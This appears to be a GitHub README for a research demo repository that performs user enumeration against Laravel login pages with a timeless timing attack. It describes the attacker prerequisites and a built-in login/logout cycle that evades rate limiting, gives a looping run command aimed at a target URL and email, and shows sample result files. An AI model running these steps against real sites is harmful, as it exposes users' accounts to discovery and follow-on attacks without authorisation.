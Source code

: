 # User enumeration through timeless timing attack in Laravel

This repository works as a demo to exploit the user enumeration vulnerability in Laravel.

The script is build on [Timeless Timing Attack](https://tom.vg/papers/timeless-timing-attack_usenix2020.pdf) by Tom Van Goethem et al.
The repository containing the proof of concept script h2time (which is part of this demo) can be found on https://github.com/DistriNet/timeless-timing-attacks 

## Pre-requisites

 - The site must have CSRF protection disabled. If it is enabled you have to obtain a valid CSRF token before trying to login.
 - You - as the attacker - must know one valid email and password combination on the target site.

## How to run

 - In `h2time.py` there is a built in login+logout for each 4 request pairs to the server to prevent the application from doing rate limiting.
This has to be amended to match a known user+password combination on the target site.
 - In `laravel.py` post_data must contain the email you want to test if exists on the target site.
 - In `laravel.py` post_data2 must contain an email you know exists on the target site. The password must be wrong, so that it does not login.

 - Run the script with the following command:

```bash
python3 laravel.py
```

The script will tell you which request from the request-pair that most of the times took longest to return.
If it "could not determine winner" that means they generally took the same time to return meaning the email under test exists on the server.

## Contributions

Tom Van Goethem et al (Timeless timing attacks)

[Jens Just Iversen](https://ephort.dk) (laravel user enumation)


## Geoff's notes
`while sleep 61; do python laravel.py {login URL} {registered email} {target email} {"local"|"remote"|"distant"} {"control"|"attack"}; done`  
I.e.  
`while sleep 61; do python laravel.py https://laravel7app.com/login known-registered-account@gmail.com target@gmail.com local control; done`  
Switch final arg "control" to "attack" to probe the target user account
  
Filenames are like this
```
results/local_control_detail.csv
results/local_control_winners.csv
results/remote_control_detail.csv
results/remote_control_winners.csv
results/distant_control_detail.csv
results/distant_control_winners.csv
results/local_target_detail.csv
results/local_target_winners.csv
results/remote_target_detail.csv
results/remote_target_winners.csv
results/distant_target_detail.csv
results/distant_target_winners.csv

```

Detail files have contents like this:
```
66904389,302,302
69115705,302,302
54883308,302,302
66942454,302,302
64316212,302,302
67685984,302,302
68458219,302,302
59474604,302,302
74394309,302,302
77712399,302,302
```

Winners files have contents like this:
```
2
2
```
